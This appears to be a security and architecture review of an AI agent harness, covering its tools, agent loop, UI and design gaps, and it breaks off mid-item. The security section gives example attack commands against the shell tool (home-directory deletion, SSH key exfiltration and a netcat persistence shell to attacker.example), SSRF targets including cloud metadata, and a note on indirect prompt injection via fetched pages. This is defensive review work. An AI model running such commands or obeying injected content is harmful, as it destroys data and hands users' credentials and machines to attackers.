






<!-- version: 1.0.0 -->
# agentfactory-harness — Security & Architecture Review

> Full meticulousness pass covering all 37 source files across Waves 0–2.
> Every diagram is self-contained. Every gap has a remediation note.

---

## Table of Contents

1. [Component Status Matrix](#1-component-status-matrix)
2. [System Architecture Diagram](#2-system-architecture-diagram)
3. [Agent Loop Sequence Diagram](#3-agent-loop-sequence-diagram)
4. [Rendering Pipeline Diagram](#4-rendering-pipeline-diagram)
5. [Input Event Routing Diagram](#5-input-event-routing-diagram)
6. [Drag State Machine Diagram](#6-drag-state-machine-diagram)
7. [Tool Dispatch Flow](#7-tool-dispatch-flow)
8. [Wave Roadmap](#8-wave-roadmap)
9. [Security Gaps](#9-security-gaps)
10. [Design Gaps & Open Ends](#10-design-gaps--open-ends)
11. [Recommendations Priority List](#11-recommendations-priority-list)

---

## 1. Component Status Matrix

| # | File | Wave | Status | Working | Notes |
|---|------|------|--------|---------|-------|
| 1 | `src/tui/renderer/ansi.ts` | 0 | ✓ done | ✅ | 256-color, alt-screen, SGR builders |
| 2 | `src/tui/renderer/cell-buffer.ts` | 0 | ✓ done | ✅ | diff, flush, clone, bounds-clip |
| 3 | `src/tui/renderer/layout.ts` | 0 | ✓ done | ✅ | 40/60 split, 70/30 right column |
| 4 | `src/tui/renderer/theme.ts` | 0 | ✓ done | ✅ | 256-color palette, box-drawing constants |
| 5 | `src/tui/input/keyboard.ts` | 0 | ✓ done | ✅ | raw stdin Buffer → KeyEvent |
| 6 | `src/tui/input/mouse.ts` | 2 | ✓ done | ✅ | xterm SGR → MouseEvent, 1→0-based coords |
| 7 | `src/tui/input/router.ts` | 2 | ✓ done | ✅ | keyboard → focused panel, mouse → hit-rect |
| 8 | `src/tui/panels/Panel.ts` | 0 | ✓ done | ✅ | abstract base, inner Rect |
| 9 | `src/tui/panels/StatusBar.ts` | 0 | ✓ done | ✅ | static bottom line |
| 10 | `src/tui/panels/SessionPanel.ts` | 1 | ✓ done | ✅⚠ | chat works; unbounded lines; hardcoded version |
| 11 | `src/tui/panels/AgentsPanel.ts` | 1 | ✓ done | ⚠️ | renders; NOT wired to SessionPanel streaming state |
| 12 | `src/tui/panels/OrchestrationCanvas.ts` | 2 | ✓ done | ✅⚠ | drag-drop works; no wire UI; no pan/scroll |
| 13 | `src/tui/panels/TerminalPanel.ts` | 4 | 🔲 planned | ❌ | Wave 4, not started |
| 14 | `src/tui/widgets/Block.ts` | 2 | ✓ done | ✅ | double-line box, port characters |
| 15 | `src/tui/widgets/Wire.ts` | 2 | ✓ done | ✅⚠ | L-shape routing; `from.col===to.col` takes detour |
| 16 | `src/tui/widgets/ContextMenu.ts` | 2 | ✓ done | ✅ | right-click popup, keyboard navigation |
| 17 | `src/tui/widgets/CommandPalette.ts` | 1 | 🔲 planned | ❌ | Ctrl+P — never started |
| 18 | `src/core/agent-loop.ts` | 1 | ✓ done | ✅⚠ | streaming works; no AbortController in UI; tools serial-only |
| 19 | `src/core/session.ts` | 1 | ✓ done | ✅ | history, tokenCount fixed |
| 20 | `src/core/hooks.ts` | 1 | ✓ done | ✅⚠ | shell hooks work; requires chmod +x; env JSON surface |
| 21 | `src/core/tools/index.ts` | 1 | ✓ done | ✅ | Zod dispatch, tool registry |
| 22 | `src/core/tools/bash.ts` | 1 | ✓ done | ✅🔴 | works; **no sandbox; shell=true; no allowlist** |
| 23 | `src/core/tools/read.ts` | 1 | ✓ done | ✅🔴 | works; **no path restriction; reads /etc/shadow** |
| 24 | `src/core/tools/write.ts` | 1 | ✓ done | ✅🔴 | works; **no path restriction; writes anywhere on disk** |
| 25 | `src/core/tools/web-fetch.ts` | 1 | ✓ done | ✅🔴 | works; **SSRF; no size limit; localhost accessible** |
| 26 | `src/core/tools/agent.ts` | 1 | 🔲 planned | ❌ | sub-session spawning — never started |
| 27 | `src/harness/doctor.ts` | 0 | ✓ done | ✅ | 5 env health checks |
| 28 | `src/harness/reader.ts` | 5 | 🔲 planned | ❌ | .ai/ context loader — Wave 5 |
| 29 | `src/harness/manifest.ts` | 5 | 🔲 planned | ❌ | agent-manifest.json parser — Wave 5 |
| 30 | `src/orchestration/schema.ts` | 3 | 🔲 planned | ❌ | af-plan.json Zod schema — Wave 3 |
| 31 | `src/orchestration/executor.ts` | 3 | 🔲 planned | ❌ | DAG runner — Wave 3 |
| 32 | `src/orchestration/planner.ts` | 3 | 🔲 planned | ❌ | /plan wizard — Wave 3 |
| 33 | `src/orchestration/graph.ts` | 3 | 🔲 planned | ❌ | toposort, cycle detection — Wave 3 |
| 34 | `src/registry/client.ts` | 5 | 🔲 planned | ❌ | agentfactory.dev REST client — Wave 5 |
| 35 | `src/registry/auth.ts` | 5 | 🔲 planned | ❌ | token auth — Wave 5 |
| 36 | `src/app.ts` | 0 | ✓ done | ✅⚠ | lifecycle, tabs, resize; Registry tab (#4) is dead |
| 37 | `src/cli.ts` + `src/index.ts` | 0 | ✓ done | ✅ | commander, doctor subcommand |

Legend: ✅ fully working · ✅⚠ working with caveats · ⚠️ partially working · ❌ not implemented · 🔴 security concern · 🔲 planned

**Summary: 22/37 implemented, 15/37 planned (Waves 3–5). Of the 22 implemented, 4 have security flags, 6 have design caveats.**

---

## 2. System Architecture Diagram



---

## 3. Agent Loop Sequence Diagram

```mermaid
sequenceDiagram
  participant UI as SessionPanel
  participant LOOP as agentLoop
  participant API as AnthropicAPI
  participant HOOKS as hooks
  participant TOOLS as ToolRegistry

  UI->>LOOP: start agentLoop
  Note over LOOP: turns=0, maxTurns=20

  loop each turn while turns lt maxTurns
    LOOP->>HOOKS: runHook StepStart
    LOOP->>API: messages.create stream=true

    loop streaming events
      API-->>LOOP: content_block_start tool_use
      Note over LOOP: register toolBlock by index
      LOOP-->>UI: AgentEvent tool_start

      API-->>LOOP: content_block_delta text_delta
      LOOP-->>UI: AgentEvent text_delta
      Note over UI: append delta to currentLine

      API-->>LOOP: content_block_delta input_json_delta
      Note over LOOP: append to inputAccum — do NOT parse yet

      API-->>LOOP: message_delta stop_reason
      Note over LOOP: record stopReason
    end

    Note over LOOP: stream closed — dispatch tool calls now

    loop for each toolBlock
      Note over LOOP: JSON.parse inputAccum — only here
      LOOP->>HOOKS: runHook PreToolUse
      alt hook blocked
        Note over LOOP: result = blocked
      else hook allowed
        LOOP->>TOOLS: dispatch name parsedInput
        TOOLS-->>LOOP: result string
        LOOP->>HOOKS: runHook PostToolUse
      end
      LOOP-->>UI: AgentEvent tool_result
    end

    LOOP->>HOOKS: runHook StepComplete
    LOOP-->>UI: AgentEvent turn_end

    alt stopReason is end_turn or no tool calls
      Note over LOOP: break
    else tool_use stop
      Note over LOOP: add tool results, turns++, continue
    end
  end

  Note over UI: streaming=false, runHook SessionStop
```

**Critical invariant:** `input_json_delta` partial strings are accumulated raw into `inputAccum`. `JSON.parse()` is called exactly once per tool block, only after `message_delta` closes the stream. This prevents parse errors on half-delivered JSON fragments.

---

## 4. Rendering Pipeline Diagram



**Key insight:** The `diff()` approach means only changed cells touch stdout — a 200×80 terminal that changed 3 cells emits ~40 bytes instead of 16,000. The `flush()` method is `diff(emptyBuffer)` — a clean full repaint without special-casing.

---

## 5. Input Event Routing Diagram



**Gap noted:** keyboard routing always goes to `panels[activeTab]` (Tab-key focus), but mouse routing does hit-rect testing across all panels. These two focus models are independent — clicking a panel with the mouse doesn't redirect keyboard events to it.

---

## 6. Drag State Machine Diagram



**Design gap:** `ghostRow` and `ghostCol` are bare instance fields, not encoded in the `DragState` discriminated union. This means they can be non-null while `drag.kind === 'idle'` if a mousemove fires during a race. Encoding them in the union (`| { kind: 'dragging'; blockId; offsetRow; offsetCol; ghostRow; ghostCol }`) would make invalid states unrepresentable.

---

## 7. Tool Dispatch Flow



**Gap noted:** The `concurrent` flag exists on the `Tool` interface but is never read in `dispatch()` or `agentLoop()`. All tool calls in a turn are dispatched sequentially in a `for...of` loop over `state.toolBlocks`. Future parallelism requires checking this flag and using `Promise.allSettled()` for concurrent-safe tools.

---

## 8. Wave Roadmap



---

## 9. Security Gaps

### 🔴 SEV-1 — BashTool: unrestricted shell execution

**File:** `src/core/tools/bash.ts`

```typescript
// Current implementation
const { stdout, stderr } = await execAsync(command, { timeout })
```

`execAsync` is `util.promisify(exec)`. Node's `exec()` runs commands through `/bin/sh -c`, meaning any command the LLM generates is executed in a full shell with the user's permissions, current working directory, and environment (including `ANTHROPIC_API_KEY`).

**Attack surface:** An adversarially-prompted Claude response could instruct `BashTool` to:
- `rm -rf ~` — destroy the user's home directory
- `cat ~/.ssh/id_rsa | curl https://attacker.example/key -d @-` — exfiltrate SSH keys
- `(crontab -l; echo '@reboot nc attacker.example 4444 -e /bin/bash') | crontab` — persistence
- Indirect prompt injection: a webpage fetched via `WebFetchTool` contains hidden instructions that get included in the next message context

**Remediation:**
- Add `cwd` restriction — default to project root, not `process.cwd()` of the app
- Add an explicit allowlist of permitted command patterns (configurable in `.ai/rules/`)
- At minimum, add a `PreToolUse` hook that confirms before executing any shell command
- Long-term: use a namespace sandbox or Docker via `child_process.spawn` with restricted options

---

### 🔴 SEV-1 — WriteTool: no path restriction

**File:** `src/core/tools/write.ts`

```typescript
await writeFile(file_path, content, 'utf8')
```

`file_path` is any string from the LLM. The tool can write to `/etc/cron.d/factory`, overwrite `~/.bashrc`, or create files in system directories (if the process has permission).

**Remediation:**
- Restrict `file_path` to an allowed root (project CWD, or a sandbox directory)
- Reject paths containing `..` to prevent directory traversal
- Zod schema: `z.string().refine(p => !p.includes('..') && !path.isAbsolute(p), 'only relative paths within project')`

---

### 🔴 SEV-1 — ReadTool: reads any file on disk

**File:** `src/core/tools/read.ts`

```typescript
return await readFile(file_path, 'utf8')
```

The LLM can read `~/.agentfactory/token`, `~/.ssh/id_rsa`, `/etc/passwd`, or any file readable by the process owner. Combined with `WebFetchTool`, a malicious prompt could exfiltrate these files.

**Remediation:** Same as WriteTool — restrict to project root; reject absolute paths outside an allowed set.

---

### 🔴 SEV-1 — WebFetchTool: SSRF and unbounded response

**File:** `src/core/tools/web-fetch.ts`

```typescript
const res = await fetch(url)
return await res.text()
```

- `http://localhost:8080/admin` — accesses local services (databases, admin panels, Kubernetes API)
- `http://169.254.169.254/latest/meta-data/` — AWS instance metadata (credentials, IAM roles)
- A 1GB response body is fully buffered into memory via `res.text()`

**Remediation:**
- Blocklist private IP ranges (RFC 1918, 169.254.0.0/16, ::1)
- Add response size limit: `const text = await res.text(); return text.slice(0, MAX_FETCH_BYTES)`
- Consider an explicit allowlist for production use

---

### 🟡 SEV-2 — Hooks: env surface and chmod requirement

**File:** `src/core/hooks.ts`

```typescript
await execFileAsync(hookPath, [], {
  env: { ...process.env, HOOK_CTX: JSON.stringify(ctx) }
})
```

`execFile` runs the hook script directly (not via shell), so the `HOOK_CTX` env var is safe from shell interpolation in the execution call itself. However:

1. If a hook script does `eval $HOOK_CTX` or `bash -c $HOOK_CTX`, an attacker who controls a tool name or result could inject shell commands into the hook context.
2. `execFile` requires the script to be executable (`chmod +x`). Plain `.sh` files will throw EACCES. The doctor check doesn't verify hook file permissions.
3. No timeout on hook execution. A hung hook blocks the agent loop indefinitely.

**Remediation:**
- Document that hook scripts must be `chmod +x` and use `#!/bin/bash`
- Add a `hookTimeout` (e.g., 5s) to `execFile` options
- Add a hook directory check to `runDoctor()`

---

### 🟡 SEV-2 — No AbortController bound to UI

**File:** `src/tui/panels/SessionPanel.ts:135`

```typescript
for await (const event of agentLoop(this.session, { maxTurns: 20 }))
//                                                   ^^^^^^
//                        no signal passed
```

The agent loop supports `signal?: AbortSignal` but `SessionPanel.runAgentLoop()` never creates or passes one. Pressing Ctrl+Q calls `process.exit(0)` immediately — the in-flight API request is not cleanly cancelled. Any tool calls in progress (e.g., a long `BashTool` execution) are also abandoned without cleanup.

**Remediation:**
- Create an `AbortController` in `SessionPanel`, pass `controller.signal` to `agentLoop`
- On Ctrl+Q, call `controller.abort()` first, `await` graceful shutdown, then `process.exit`
- Expose an "interrupt" keybinding (e.g., Ctrl+C) that aborts the current loop without quitting

---

### 🟡 SEV-2 — Registry token in plaintext

**File:** `src/harness/doctor.ts:31`

```typescript
const tokenPath = join(homedir(), '.agentfactory', 'token')
```

The token file is plaintext at `~/.agentfactory/token`. If `ReadTool` or `BashTool` is invoked (even legitimately), the LLM will have access to the registry token. This is a secondary risk dependent on SEV-1 tools above.

**Remediation:** Integrate with OS keychain (macOS Keychain, libsecret on Linux) for production. For now, ensure the token file has `chmod 600`.

---

### 🟡 SEV-2 — No API rate limiting or cost control

**File:** `src/core/agent-loop.ts:57`

```typescript
while (turns < maxTurns) {  // default: 20 turns
```

Each turn makes one API call. `maxTurns: 20` with `max_tokens: 8192` could result in 163,840 output tokens in a single session. No per-session budget, no per-minute rate throttle, no cost warning to the user.

**Remediation:**
- Add `maxTokensPerSession` option
- Track cumulative token usage in `Session`
- Surface token cost in StatusBar

---

## 10. Design Gaps & Open Ends

### D-1 — Unbounded `SessionPanel.lines` array

**File:** `src/tui/panels/SessionPanel.ts:18`

`this.lines` grows by appending on every assistant delta, tool event, and user message. There is no eviction. A multi-hour session with verbose tool results will accumulate thousands of entries. `wrapLines()` is called every render frame, re-allocating a new `ChatLine[]` from the full array each time — O(n) allocation with no caching.

**Remediation:** Cap at `MAX_LINES` (e.g., 2000) and trim the head. Cache the wrapped result and invalidate only when `lines` changes.

---

### D-2 — Fire-and-forget `runAgentLoop()`

**File:** `src/tui/panels/SessionPanel.ts:106`

```typescript
void this.runAgentLoop()
```

The `void` discards the promise. If an unhandled error escapes the `try/finally` block, it becomes an unhandled promise rejection that Node.js may swallow silently (in newer versions it crashes with `--unhandled-rejections=throw`). The `streaming` flag prevents double-invocation but there is no request queue — a user message submitted while `streaming` is silently dropped.

**Remediation:**
- Attach `.catch(err => this.lines.push({role:'system', text: `Fatal: ${err.message}`}))` to the promise
- Queue user messages while streaming and process the queue after the loop ends

---

### D-3 — Hardcoded version string

**File:** `src/tui/panels/SessionPanel.ts:27`

```typescript
this.lines.push({ role: 'system', text: 'factory v0.2.0 — type a message or /help' })
```

This will read `v0.2.0` on a `v0.3.0` build. `src/index.ts` exports `VERSION` — it should be imported here.

**Remediation:** `import { VERSION } from '../../index.js'` and use `` `factory v${VERSION}` ``.

---

### D-4 — `Date.now()` block IDs — collision risk

**File:** `src/tui/panels/OrchestrationCanvas.ts:219`

```typescript
const id = `agent-${Date.now()}`
```

Two rapid right-clicks within the same millisecond produce identical IDs. Wire routing uses block IDs as foreign keys; duplicates would cause wires to attach to the wrong block, and `hitTestBlock` would return the first match only.

**Remediation:** Use a monotonic counter (`let _seq = 0; const id = \`agent-${++_seq}\``) or `crypto.randomUUID()`.

---

### D-5 — No wire-drawing UI

**File:** `src/tui/panels/OrchestrationCanvas.ts:193–215`

The `CanvasState.wires` array is displayed correctly, but there is no gesture to create a wire. Right-click only offers "Add agent block" or "Delete block". Wires can only be injected via `loadState()`.

**Remediation (Wave 3):** Implement port drag-connect: click-hold on a port character (`○`/`●`), drag to another block's input port, release to create a wire. This requires tracking a `WireDrag` sub-state.

---

### D-6 — No canvas scroll or pan

**File:** `src/tui/panels/OrchestrationCanvas.ts:55–58`

The grid is rendered starting at `(0, 0)` of the canvas inner area. Blocks can be placed anywhere in `[0, canvasHeight) × [0, canvasWidth)` but there is no scroll or pan. If blocks overflow the visible area, they are silently clipped.

**Remediation (Wave 3):** Add `scrollRow` and `scrollCol` offsets to `CanvasState`. Middle-click or scroll-wheel pans the viewport. Render blocks at `(block.row - scrollRow, block.col - scrollCol)`.

---

### D-7 — "Registry" tab (#4) is visually dead

**File:** `src/app.ts:19, 167–170`

```typescript
const TABS = ['Session', 'Orchestration', 'Agents', 'Registry']
// ...
if (key.key >= '1' && key.key <= '4') {
  this.activeTab = parseInt(key.key) - 1
```

Tab 4 (`activeTab = 3`) has no panel. `panels[3]` is `undefined`. The border is never drawn, the area shows the background color, and the tab label is highlighted. This confuses users who press `4`.

**Remediation:** Either hide the tab until Wave 5 implements it, or render a placeholder panel with "Registry — coming in Wave 5".

---

### D-8 — `concurrent` tool flag is declared but never used

**File:** `src/core/tools/index.ts:16` + `src/core/agent-loop.ts:115`

```typescript
concurrent?: boolean  // on Tool interface

for (const [, block] of state.toolBlocks) {  // sequential, always
  result = await dispatch(block.name, parsedInput)
```

`ReadTool` and `WebFetchTool` are both marked `concurrent: true`, but all tool calls in a turn are dispatched in a sequential `for...of` loop. Parallel requests that could complete simultaneously are serialized.

**Remediation:** Partition `state.toolBlocks` into concurrent/serial buckets; run the concurrent set with `Promise.allSettled()`, then run serial tools one by one.

---

### D-9 — `AgentsPanel` not wired to session state

**File:** `src/app.ts:60`

```typescript
this.agentsPanel.setAgents([{ name: 'session-0', status: 'idle' }])
```

This single `setAgents` call at init is the only update to the panel. When `SessionPanel.streaming` flips to `true`, the agent status should update to `'running'`. When it stops, back to `'idle'`. No event channel exists between these two panels.

**Remediation:** `App` should subscribe to agent lifecycle events from `SessionPanel` and call `agentsPanel.setAgents()` accordingly.

---

### D-10 — Wire routing detour when `from.col === to.col`

**File:** `src/tui/widgets/Wire.ts:35`

```typescript
const effectiveHDir = hDir !== 0 ? hDir : 1  // fallback right
```

